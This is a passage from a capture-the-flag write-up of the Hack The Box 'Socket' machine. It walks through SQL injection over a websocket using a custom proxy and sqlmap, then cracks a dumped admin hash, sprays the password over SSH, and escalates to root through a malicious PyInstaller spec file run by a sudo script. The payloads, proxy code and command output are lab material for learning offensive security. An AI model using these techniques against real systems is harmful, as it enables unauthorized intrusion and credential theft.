└─$ python ws_cmd.py
> 1
< {"message": "Invalid version!"}
> hello
< {"message": "Invalid version!"}
> hello'
< {"message": "Invalid version!"}
> hello"
received 1011 (unexpected error); then sent 1011 (unexpected error)
<
```

When I send a double quote I notice that the server crashes, which could indicate that I ended up creating an invalid SQL query. To confirm I try a SQL injection payload:

```ansi
> hello" or "" = "
< {"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}
```

And I get the version back. This implies that the endpoint is vulnerable to SQLi and the query probably looks something like this.

```sql
select * from versions where version = "[version]";
```

### Using SQLMap

Because of the weird websocket implementation, I can’t use `sqlmap` directly as I did in [Soccer.](https://nvd.codes/post/hack-the-box-soccer/) While reading online, I found [this](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) article describing how to do a blind SQLi over a websocket connection. While `sqlmap` nowadays natively supports websocket connections, it still has some limitations. But in this case, I can use the same idea to abstract the weird web socket implementation behind a simple `GET` request.

The idea is that I’ll spin up a webserver on [localhost](http://localhost) that exposes a `GET` endpoint with a vulnerable query parameter that will then correctly forward this request to the websocket endpoint. All I have to do then is point `sqlmap` to my local proxy. I modified the script slightly to use the `json` module instead manually wrangling JSON payloads and I cleaned up a few more related to error handling to make debugging easier. My server looked something like this

```python
import json
import sys
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websockets.sync.client import connect

ws_server = "ws://ws.qreader.htb:5789/version"

def send_ws(payload):
    message = {"version": unquote(payload)}
    data = json.dumps(message)
    try:
        with connect(ws_server) as websocket:
            websocket.send(data)
            message = websocket.recv()
    except Exception as ex:
        print(ex, file=sys.stderr)
        return ""

    return message if not None else ""

def middleware_server(host_port, content_type="text/plain"):
    class CustomHandler(SimpleHTTPRequestHandler):
        def do_GET(self) -> None:
            self.send_response(200)
            try:
                payload = urlparse(self.path).query.split("=", 1)[1]
            except IndexError:
                payload = False

            if payload:
                content = send_ws(payload)
            else:
                content = "No parameters specified!"

            self.send_header("Content-type", content_type)
            self.end_headers()
            self.wfile.write(content.encode())
            return

    class _TCPServer(TCPServer):
        allow_reuse_address = True

    httpd = _TCPServer(host_port, CustomHandler)
    httpd.serve_forever()

print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?version=*")

try:
    middleware_server(("0.0.0.0", 8081))
except KeyboardInterrupt:
    pass
```

And now, I can start the proxy server with:

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket/scripts]
└─$ python ws.py                                                                                                                                                                                                                 1 ⨯
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?version=*import json
```

After that, I can point `sqlmap` to my local endpoint and let it reveal any SQLi vulnerabilities:

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket]
└─$ sqlmap -u 'http://localhost:8081?version=1' --batch --dbs --level 5 --risk 3
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.7#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<..snip..>

[18:13:51] [INFO] GET parameter 'version' appears to be 'SQLite > 2.0 OR time-based blind (heavy query)' injectable
[18:13:51] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:13:51] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:13:51] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:13:52] [INFO] target URL appears to have 4 columns in query
[18:13:52] [INFO] GET parameter 'version' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
[18:13:52] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
GET parameter 'version' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 269 HTTP(s) requests:
---
Parameter: version (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: version=1" OR NOT 1580=1580-- YmGV

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: version=1" OR 7721=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- ZzYl

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: version=1" UNION ALL SELECT NULL,NULL,NULL,CHAR(113,118,112,118,113)||CHAR(107,97,84,115,108,113,76,108,90,70,65,80,77,77,88,122,88,98,76,103,115,108,76,74,97,100,76,122,84,78,119,77,121,102,74,116,89,69,111,106)||CHAR(113,112,120,118,113)-- zLii
---
[18:13:52] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[18:13:52] [WARNING] on SQLite it is not possible to enumerate databases (use only '--tables')
[18:13:52] [INFO] fetched data logged to text files under '/home/nickvd/.local/share/sqlmap/output/localhost'

```

The datastore is SQLite, and the current endpoint is vulnerable to a `UNION` injection with 4 columns. Given it’s SQLite it doesn’t have a concept of databases, so I can immediately try to dump all tables.

```bash
┌──(nickvd㉿kali)-[~/Boxes/Socket]
└─$ sqlmap -u 'http://localhost:8081?version=1' --batch --tables --level 5 --risk 3
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.7#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

<...snip...>
[18:18:22] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[18:18:22] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[6 tables]
+-----------------+
| answers         |
| info            |
| reports         |
| sqlite_sequence |
| users           |
| versions        |
+-----------------+

<...snip...?
```

I can now dump each table on its own and go slowly. Or because its a HTB challenge and the tables won't contain much, I can immediately dump all tables at once.:

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket]
└─$ sqlmap -u 'http://localhost:8081?version=1' --batch --tables --level 5 --risk 3 --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.7#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<...snip ...>
[18:22:31] [WARNING] no clear password(s) found
Database: <current>
Table: users
[1 entry]
+----+-------+----------------------------------+----------+
| id | role  | password                         | username |
+----+-------+----------------------------------+----------+
| 1  | admin | 0c090c365fa0559b151a43e0fea39710 | admin    |
+----+-------+----------------------------------+----------+

[18:22:31] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/users.csv'
[18:22:31] [INFO] fetching columns for table 'versions'
[18:22:31] [INFO] fetching entries for table 'versions'
Database: <current>
Table: versions
[2 entries]
+----+---------+-----------+---------------+
| id | version | downloads | released_date |
+----+---------+-----------+---------------+
| 1  | 0.0.1   | 280       | 12/07/2022    |
| 2  | 0.0.2   | 720       | 26/09/2022    |
+----+---------+-----------+---------------+

[18:22:31] [INFO] table 'SQLite_masterdb.versions' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/versions.csv'
[18:22:31] [INFO] fetching columns for table 'sqlite_sequence'
[18:22:32] [INFO] fetching entries for table 'sqlite_sequence'
Database: <current>
Table: sqlite_sequence
[5 entries]
+-----+----------+
| seq | name     |
+-----+----------+
| 2   | versions |
| 1   | users    |
| 2   | info     |
| 2   | reports  |
| 2   | answers  |
+-----+----------+

[18:22:32] [INFO] table 'SQLite_masterdb.sqlite_sequence' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/sqlite_sequence.csv'
[18:22:32] [INFO] fetching columns for table 'reports'
[18:22:32] [INFO] fetching entries for table 'reports'
Database: <current>
Table: reports
[2 entries]
+----+---------------------------+---------------------------------------------------------------------------------------------------------------------+---------------+---------------+
| id | subject                   | description                                                                                                         | reported_date | reporter_name |
+----+---------------------------+---------------------------------------------------------------------------------------------------------------------+---------------+---------------+
| 1  | Accept JPEG files         | Is there a way to convert JPEG images with this tool? Or should I convert my JPEG to PNG and then use it?           | 13/08/2022    | Jason         |
| 2  | Converting non-ascii text | When I try to embed non-ascii text, it always gives me an error. It would be nice if you could take a look at this. | 22/09/2022    | Mike          |
+----+---------------------------+---------------------------------------------------------------------------------------------------------------------+---------------+---------------+

[18:22:32] [INFO] table 'SQLite_masterdb.reports' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/reports.csv'
[18:22:32] [INFO] fetching columns for table 'answers'
[18:22:32] [INFO] fetching entries for table 'answers'
Database: <current>
Table: answers
[2 entries]
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| id | answer                                                                                                                                                                        | status  | answered_by | answered_date |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| 1  | Hello Json,\\n\\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\\n\\nThomas Keller                                       | PENDING | admin       | 17/08/2022    |
| 2  | Hello Mike,\\n\\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\\n\\nThomas Keller | PENDING | admin       | 25/09/2022    |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+

[18:22:32] [INFO] table 'SQLite_masterdb.answers' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/answers.csv'
[18:22:32] [INFO] fetching columns for table 'info'
[18:22:33] [INFO] fetching entries for table 'info'
Database: <current>
Table: info
[2 entries]
+----+-------------+-------+
| id | key         | value |
+----+-------------+-------+
| 1  | downloads   | 1000  |
| 2  | convertions | 2289  |
+----+-------------+-------+

[18:22:33] [INFO] table 'SQLite_masterdb.info' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/info.csv'
[18:22:33] [INFO] fetched data logged to text files under '/home/nickvd/.local/share/sqlmap/output/localhost'
```

There’s only one user in the `users` table. I put the hash through [crackstation](https://crackstation.net/) to get the password for the `admin` user.


Digging through the other user I find that `Thomas Keller` wrote a message in the `anwser` table with the admin user.

### SSH Enum

My assumption is that `Thomas Keller` is the admin for the website and most likely has reused the same password for `ssh`. But I need a list of usernames; for this I use [username-anarchy](https://github.com/urbanadventurer/username-anarchy):

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket/scripts]
└─$ ./username-anarchy.rb thomas keller
thomas
thomaskeller
thomas.keller
thomaske
thomkell
thomask
t.keller
tkeller
kthomas
k.thomas
kellert
keller
keller.t
keller.thomas
tk
```

To quickly test these, I dump them in a file named `users.txt` and run them through `crackmapexec`:

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket/scripts]
└─$ crackmapexec ssh 10.10.11.206 -u users.txt -p denjanjade122566
SSH         10.10.11.206    22     10.10.11.206     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
SSH         10.10.11.206    22     10.10.11.206     [-] thomas:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomaskeller:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomas.keller:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomaske:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomkell:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomask:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] t.keller:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [+] tkeller:denjanjade122566
```

### Getting the shell

Now I can log in to the server and grab the `user.txt` file.

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket/scripts]
└─$ ssh tkeller@10.10.11.206
The authenticity of host '10.10.11.206 (10.10.11.206)' can't be established.
ED25519 key fingerprint is SHA256:LJb8mGFiqKYQw3uev+b/ScrLuI4Fw7jxHJAoaLVPJLA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.206' (ED25519) to the list of known hosts.
tkeller@10.10.11.206's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-67-generic x86_64)

<...snip...>

tkeller@socket:~$ cat user.txt
e05ce0609c8615871b81922dc507ae81
```

## Becoming root

The first thing I check is `sudo -l`, which shows that I can run a script as root:

```ansi
tkeller@socket:~$ sudo -l
Matching Defaults entries for tkeller on socket:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
```

With `cat` I can dump the contents of the script to my terminal:

```bash title="/usr/local/sbin/build-installer.sh"
#!/bin/bash
if [ $# -ne 2 ] && [[ $1 != 'cleanup' ]]; then
  /usr/bin/echo "No enough arguments supplied"
  exit 1;
fi

action=$1
name=$2
ext=$(/usr/bin/echo $2 |/usr/bin/awk -F'.' '{ print $(NF) }')

if [[ -L $name ]];then
  /usr/bin/echo 'Symlinks are not allowed'
  exit 1;
fi

if [[ $action == 'build' ]]; then
  if [[ $ext == 'spec' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /home/svc/.local/bin/pyinstaller $name
    /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'make' ]]; then
  if [[ $ext == 'py' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
   /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'cleanup' ]]; then
  /usr/bin/rm -r ./build ./dist 2>/dev/null
  /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
  /usr/bin/rm /tmp/qreader* 2>/dev/null
else
  /usr/bin/echo 'Invalid action'
  exit 1;
fi
```

Reading through the script, the `build` action combined with a `spec` file gives me most control over the arguments passed to pyinstaller. From the [PyInstaller docs](https://pyinstaller.org/en/stable/spec-files.html) I learn that spec files are little Python scripts that can be passed to the program, which get executed during the build process. The docs show an example spec file:

```python
block_cipher = None
a = Analysis(['minimal.py'],
         pathex=['/Developer/PItests/minimal'],
         binaries=None,
         datas=None,
         hiddenimports=[],
         hookspath=None,
         runtime_hooks=None,
         excludes=None,
         cipher=block_cipher)
pyz = PYZ(a.pure, a.zipped_data,
         cipher=block_cipher)
exe = EXE(pyz,... )
coll = COLLECT(...)
```

Given this is all plain Python code. I wonder if I can create a minimal spec file that executes `/bin/bash`:

```ansi
tkeller@socket:~$ cd /tmp
tkeller@socket:/tmp$ echo 'import os;os.system("/bin/bash")'  > my.spec
tkeller@socket:/tmp$ sudo /usr/local/sbin/build-installer.sh build my.spec
423 INFO: PyInstaller: 5.6.2
424 INFO: Python: 3.10.6
425 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
429 INFO: UPX is not available.
root@socket:/tmp# whoami
root
root@socket:/tmp#
```

And it worked. When PyInstaller executed the spec, my malicious spec file spawned bash via the `os` module.

Now I can read `root.txt`:

```ansi
root@socket:/tmp# cd /root

root@socket:~# cat root.txt
c0ac7b2aed1a8fb8cdc4be85b0036c75
```
